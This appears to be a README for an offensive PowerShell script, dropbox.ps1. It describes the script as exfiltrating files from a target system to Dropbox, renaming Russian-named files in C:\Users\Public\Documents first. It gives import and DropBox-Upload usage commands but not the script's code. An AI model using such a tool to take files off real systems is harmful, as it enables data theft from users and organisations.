 ## About
This script exfiltrates files from a target system preserving the orginal name of them unless they are in russian.

Files named in russian will be coppied to `C:\Users\Public\Documents` with a new random name before the upload to avoid errors.

## Syntax
1) Import the script
   
`. .\dropbox.ps1`

2) Upload files

`DropBox-Upload -FileName "file.txt"`

or 

`"file.txt" | DropBox-Upload`
